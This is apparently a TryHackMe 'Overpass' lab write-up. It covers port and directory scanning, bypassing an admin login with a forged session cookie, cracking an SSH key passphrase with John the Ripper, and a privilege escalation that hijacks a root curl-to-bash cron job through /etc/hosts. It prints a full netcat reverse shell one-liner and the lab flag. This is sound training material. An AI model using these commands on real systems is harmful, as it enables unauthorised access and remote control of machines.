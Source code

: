 


# TryHackMe - Overpass

<br>

## Machines

Attacker IP:    `10.10.108.208`

Target IP:      `10.10.179.84`

<br>

## Q1. Hack the machine and get the flag in user.txt

Ran an Nmap scan to the target IP `10.10.25.161`.  Ports, Protocal, and Service for SSH (22) and HTTP (80) are open.

Command used `nmap -sV -vv 10.10.25.161`

![alt text](<Screenshot 2024-03-22 at 8.24.29 AM.png>)


Now that we know what open ports there are, we can further investigate the webpage for the IP address `10.10.25.161` to access the `Overpass - Security password manager` website.  

![alt text](<Screenshot 2024-03-22 at 8.28.02 AM.png>)


Using Firefox to view the source code of the webpage, we don't really see much useful information, but we can see a string of text that is commented to that could be read as sarcastic.  `

![alt text](<Screenshot 2024-03-21 at 9.26.32 PM.png>)



In an effort to find any pages that might be hidden, I utilized `Gobuster` to scan the for any pages that aren't viewable by the naked eye when first attempting to visit the website @ `10.10.25.161`.  The results of the page scan shows a few pages, but the one that really seeks my attention is the `/admin` page.   

Command used `gobuster dir -u http://10.10.25.161 -w /usr/share/wordlists/dirb/common.txt`

![alt text](<Screenshot 2024-03-22 at 8.32.31 AM.png>)

![alt text](<Screenshot 2024-03-22 at 8.33.19 AM.png>)


In analyzing the source code of the /admin page, we can assess that there's some code pertaining to setting a cooking named `SessionToken`

![alt text](<Screenshot 2024-03-21 at 4.00.17 PM.png>)


If we were to utilize the Firefox's web developer tools, we can attempt to hack the /admin logon page.   

On the browser tool bar, click the following `Tools > Browser Tools > Web Developer Tools`.  In the tools window, click the `Debugger` and locate the `Cookies.set("SessionToken",statusOrCookie)`.  After locating the `SessionToken`, click the Storage tab and on the side menu, click the Cookies drop down and choose the the webpage/site.  Click the `+` to add an item.  Double click the item that populates and change the name of it to `SessionToken`

![alt text](<Screenshot 2024-03-22 at 9.04.40 AM.png>)

![alt text](<Screenshot 2024-03-22 at 9.21.33 AM.png>)


Another option to successfully access to the /admin logon page instead of using the Storage tab, is using the Console tab.   Using the same code `Cookies.set(“SessionToken”,"statusOrCookie")` just modify the part of the code `statusOrCooking` to `Cookies.set(“SessionToken”,"")`.  Click enter and refresh the page.   This to will gain admin access to the page to view the SSH private key.   

![alt text](<Screenshot 2024-03-22 at 9.21.33 AM.png>)


***Note:  In any scenaria, whether directly adding the `SessionToken` using Storage or the Console, the end result is that the Cookie does infact automatics gets added to the Storage > Cookies tab.***


Attempting to follow the labs writeup instructions, there was an error of trying to locate ssh2john.py.  After some research attempting to locate john, I found that John and all the other programs associated to it were found in the `/root/Tools/Password Attacks/john` directory and NOT the easier way to navigate to John by clicking `Applications > Password Cracking > John the Ripper`.  Now that I have been able to locate the correct directory, i can now we can get the `rsakey` file into a formate readable by John.

***NOTE:  `John the Ripper` (JtR) is a great program able to crach hash algorithms.  `ssh2john` converts SSH private keys to a hash format that JtR can understand and crack.***

![alt text](<Screenshot 2024-03-22 at 9.59.09 AM.png>)

![alt text](<Screenshot 2024-03-22 at 10.00.46 AM.png>)

![alt text](<Screenshot 2024-03-22 at 10.01.02 AM.png>)


Now we can attempt to crack `rsajohn` using the following command `john --wordlist=/root/Desktop/Tools/wordlists/rockyou.txt rsajohn`.  The passphrase JtR was able to crack is `james13`.

![alt text](<Screenshot 2024-03-22 at 10.13.23 AM.png>)

<br>

***MY session expired and needed to restart the assignment.  My new targe IP is `10.10.134.36`***

Before attempting to SSH we need to change the permissions to the `rsakey` file;  `chmod 600 rsakey`.

Now that we cracked the hash using JtR and now have the `rsakey` passphrase, we can now SSH into the target box using the following command; `ssh -i rsakey james@10.10.134.36`.

![alt text](<Screenshot 2024-03-22 at 10.56.05 AM.png>)


After successfully using SSH to logon to James computer remotely, we can now view and access files and system to answer Question 1 by performing the following commands: 

- `ls` to view the files
- `cat user.txt` to view the file contents.
    - `thm{65c1aaf000506e56996822c6281e6bf7}` is contents of the file and also the the flag.

        ![alt text](<Screenshot 2024-03-22 at 10.59.02 AM.png>)


<br>


## Q2.  Escalate your privileges and get the flag in root.txt

***Stopped the lab and need to restart the machines.  New IPs were created***

```
Attacker IP:    10.10.108.208
Target IP:      10.10.179.84
```

<br>

Just out of curiousity, I ran the `ll` command to view any hidden files.  We can see in the output, there's a file  named `.overpass`.  To dig a bit deeper, I used the command `cat .overpass` to view the contents.   

Contents appears to be some type of encoding or hash; `,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.`

![alt text](<Screenshot 2024-03-22 at 10.01.54 PM.png>)


In `Task 1` we listed the the contest available on the Desktop by performing the `ls` command.  We already view the `user.txt` to obtain the first flag.  Now let view the contents of the `todo.txt` file

![alt text](<Screenshot 2024-03-22 at 11.49.51 AM.png>)

The note indicates `automated build script` and usually cron jobs are useful in settup up automated jobs.  Before doing anything else, I changed to the `/etc` directory to view the folders/files.  

- I ran the command, `cat /etc/cronjob`.  In the file we can view update builds from the latest code are from `* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`.

    ![alt text](<Screenshot 2024-03-22 at 11.51.48 AM.png>)


- Since we looked at the cronjobs the noxt logical step in the process is to view the hosts.  Using the command `cat /etc/hosts` I was able to view the all the hosts there were connections to.  Here we were able to modify on the host `127.0.0.1` to use the attacker's IP `10.10.108.208`.  For learning and educational purposes I just `#` commented the line out and added the attacker IP. 

    ![alt text](<Screenshot 2024-03-22 at 10.06.06 PM.png>)

    ![alt text](<Screenshot 2024-03-22 at 10.25.51 PM.png>)



In a previous step, we identified `Update build from latest code * * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`.  Using this, I needed to create the following directory/file on the attacker machine, `downloads/src/buildscript.sh`.   Opening a new terminal tab, I created the following file directory and file.  In the same process I also added reverse shell script to complete a netcat connection w/in the file.  The script was obtained using `pentestmonkey.net`.

***Site:    `https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet`***

***Script:  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.108.208 1234 >/tmp/f`***

![alt text](<Screenshot 2024-03-22 at 10.45.25 PM.png>)
















